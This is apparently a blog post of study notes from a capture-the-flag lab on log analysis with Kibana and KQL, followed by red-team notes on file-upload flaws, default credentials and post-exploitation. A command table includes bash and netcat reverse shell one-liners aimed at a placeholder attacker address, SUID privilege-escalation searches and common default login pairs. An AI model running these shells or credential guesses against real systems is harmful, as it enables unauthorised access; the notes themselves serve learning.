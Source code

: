 ```yaml
---
title: Post 63 - Twice in three days
date: 2024-12-07
tags:
    - log analysis
    - elastic
    - elk
    - kql
    - rce
---
```

## Task 9, Day 3 `Log analysis` Even if I wanted to go, their vulnerabilities wouldn't allow it.

### Operation Blue
Log analysis is crucial to blue-team work.  
- ELK: Elasticsearch, Logstash, and Kirbana  

ELK combines data analytics and processing tools to make log analysis manageable. Forms dedicated stack to aggregate logs from multiple sources into central place. Today starts with Kibana Discover interface.  
- Index pattern: Collection of logs. Could be from single host or multiple hosts with similar purpose, i.e. web servers.  
- KQL: Kibana Query Language - Language for searching documents for values. Semi-similar to Splunks SPL (Search Processing Language).

| Query/Syntax | Description | Example |
| :---: | :---: | :---: |
| " " | Search for specific values. **Exact** search. | "TryHackMe" |
| ** | Wildcard for similar matches to value provided | United** (returns United Kingdom and United States) |
| OR | Shows documents that contain **either** value provided | "United Kingdom" OR "England" |
| AND | Shows documents that contain **both** values provided | "Ben" AND "25" |
| : | Search a specific field in the document. Field availability depends on fields available in document. | ip.address: 10.10.10.10 |

Can filter out noise by selecting/unselecting certain fields. Adding fields just applies correct KQL syntax through GUI. Can also filter specific values in fields by clicking field in left pane and adding/removing with `+/-`. Can click and drag on timeline to select time covered in search. 

### Operation Red
#### Unrestricted File Uploads
Without the website confirming things like file type, size, file contents it can open door for attacks on webserver.  
- RCE: Uploading a script that the server runs giving control to the attacker.  
- XSS: Uploading HTML file containing XSS code to steal a cookie and send it back to attacker's server.  

#### Usage of Weak Credentials
One of the easiest paths of attack is weak or default creds. Common weak.default creds attacker might try:

| Username | Password |
| :---: | :---: |
| admin | admin |
| administrator | administrator |
| admin@domainname | admin |
| guest | guest |

#### RCE and Web Shells
Post vulnerability exploitation commands to try:

| Command | Use |
| :---: | :---: |
| ls | Gives idea of files and directories around you |
| cat | Outputs contents of documents like text files |
| pwd | Gives idea of where in system you are |
| whoami | Lets you know who you are |
| hostname | System name and potentially its role |
| uname -a | System info like OS, kernel version, etc. |
| id | Shows any groups current user is assigned to |
| ifconfig | Network setup info |
| bash -i >& /dev/tcp/\<your-ip>/\<port> 0>&1 | Begins reverse shell via bash |
| nc -e /bin/sh \<your-ip> \<port> | Begin reverse shell via Netcat |
| find / -perm -4000 -type f 2>/dev/null | Finds SUID files, useful for privesc |
| find / -writable -type f 2>/dev/null \| grep -v "/proc/" | Find files with writable permissions |

### The Task
Investigate attack in Kibana to answer blues questions, then recreate attack to answer red questions. Had to watch the end of the video to get my shell going.

### Recommended Stuff
Advanced ELK queries room(?).

